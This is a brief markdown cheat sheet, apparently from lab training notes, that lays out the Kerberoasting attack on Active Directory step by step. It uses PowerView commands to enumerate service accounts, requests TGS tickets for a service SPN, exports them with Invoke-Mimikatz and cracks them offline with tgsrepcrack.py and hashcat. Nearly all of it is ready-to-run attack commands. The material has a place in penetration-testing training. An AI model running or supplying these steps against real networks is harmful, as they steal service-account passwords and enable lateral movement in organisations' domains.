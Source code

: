 # Kerberoast

**Find user accounts used as service accounts**

```
. ./GetUserSPNs.ps1
```

```
Get-NetUser -SPN
```

```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

**Reguest a TGS**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

or

```
Request-SPNTicket "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

**Export ticket using Mimikatz**

```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

**Crack the ticket**

Crack the password for the serviceaccount

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-40a10000-student1@MSSQLSvc~dcorp-mgmt.dollarcorp.moneycorp.local-DOLLARCORP.MONEYCORP.LOCAL.kirbi
```

```
.\hashcat.exe -m 18200 -a 0 <HASH FILE> <WORDLIST>
```
